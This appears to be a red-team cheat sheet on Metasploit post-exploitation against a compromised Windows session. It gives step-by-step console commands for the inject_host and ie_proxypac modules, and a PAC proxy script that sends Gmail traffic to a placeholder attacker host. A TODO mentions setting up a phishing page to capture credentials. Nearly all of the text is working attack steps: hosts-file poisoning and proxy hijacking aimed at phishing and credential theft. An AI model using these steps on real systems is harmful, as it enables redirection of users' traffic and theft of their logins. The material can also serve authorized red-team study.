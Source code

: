 # Metasploit

## Inject DNS Hosts

```
msf > use post/windows/manage/inject_host

msf post(windows/manage/inject_host) > options

Module options (post/windows/manage/inject_host):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   DOMAIN                    yes       Domain name for host file manipulation.
   IP                        yes       IP address to point domain name to.
   SESSION                   yes       The session to run this module on

msf post(windows/manage/inject_host) > set domain <domain>

msf post(windows/manage/inject_host) > set ip <phishing_server>

msf post(windows/manage/inject_host) > set session <session_ID>

msf post(windows/manage/inject_host) > run
```

## Load Rouge HTTP Proxy

TODO: Show a step by step approach to setup a phishing webpage to capture credentials

```javascript
function FindProxyForURL(url, host) {
	if (shExpMatch(host, "www.gmail.com")) { 
		 return "PROXY <attacker_IP>:80; DIRECT";
	}
	if (shExpMatch(host, "www.shelliscoming.com")) { 
		return "PROXY <attacker_IP>:80; DIRECT";
	}
	if (url.substring(0, 6) == "https:") {
		return "DIRECT";
	}
}
```

```
msf > use post/windows/manage/ie_proxypac

msf post(windows/manage/ie_proxypac) > options

msf post(windows/manage/ie_proxypac) > set local_pac /local/path/to/file.pac

msf post(windows/manage/ie_proxypac) > run session=<session_ID>

msf post(windows/manage/ie_proxypac) > sessions -i <session_ID>

meterpreter > getproxy
```

---
## References

### Shell is Coming

- [Shell is Coming: Controlling Internet Explorer user traffic through a proxy PAC file](https://www.shelliscoming.com/2013/12/metasploit-controlling-internet.html)